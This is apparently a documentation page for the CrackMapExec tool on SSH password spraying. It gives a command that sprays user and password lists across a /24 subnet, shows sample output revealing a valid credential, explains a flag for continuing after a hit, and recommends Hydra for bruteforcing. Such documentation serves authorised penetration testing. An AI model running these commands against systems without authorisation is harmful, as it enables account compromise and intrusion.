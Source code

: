 # Password Spraying

### Password spraying (without bruteforce)

```
#~ cme ssh 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```

Expected Results:

```
SSH         127.0.0.1       22     127.0.0.1        [*] SSH-2.0-OpenSSH_8.2p1 Debian-4
SSH         127.0.0.1       22     127.0.0.1        [+] user:password
```

{% hint style="info" %}
By default CME will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. Usefull for spraying a single password against a large user list.
{% endhint %}

<figure><img src="../../../../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

You can also use [Hydra](https://github.com/vanhauser-thc/thc-hydra) available by default on Kali to bruteforce SSH password, it's faster and better :)
